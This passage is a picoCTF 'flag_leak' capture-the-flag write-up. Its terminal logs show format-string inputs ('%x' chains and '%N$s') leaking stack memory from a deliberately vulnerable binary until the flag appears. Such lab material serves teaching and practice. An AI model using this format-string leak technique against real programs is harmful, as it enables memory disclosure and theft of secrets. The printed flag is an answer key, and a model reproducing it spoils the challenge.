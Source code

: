 ┌──(secretK㉿thebattle)-[~/picoCTF/binary_exploitation/flag_leak]
└─$ ./vuln
Tell me a story and then I'll tell you one >> %x
Here's a story - 
ffe287d0
                                                                                               
┌──(secretK㉿thebattle)-[~/picoCTF/binary_exploitation/flag_leak]
└─$ ./vuln
Tell me a story and then I'll tell you one >> %x.%x
Here's a story - 
ffa2b590.0
                                                                                               
┌──(secretK㉿thebattle)-[~/picoCTF/binary_exploitation/flag_leak]
└─$ ./vuln
Tell me a story and then I'll tell you one >> %x. %x.
Here's a story - 
ff9c5c50.
                                                                                               
┌──(secretK㉿thebattle)-[~/picoCTF/binary_exploitation/flag_leak]
└─$ ./vuln
Tell me a story and then I'll tell you one >> %x.%x.%x.%x.%x.%x.%x
Here's a story - 
ff89d3a0.0.8049346.252e7825.78252e78.2e78252e.252e7825



└─$ python3 flag_leak.py
%0$s
%1$s
\x10#
ú,
(null)
\x07/

(null)
.

(null)

\x10\x0f
(gggggggggggggghg
(null)
setresgid
|
e
setresgid

Flag: picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}
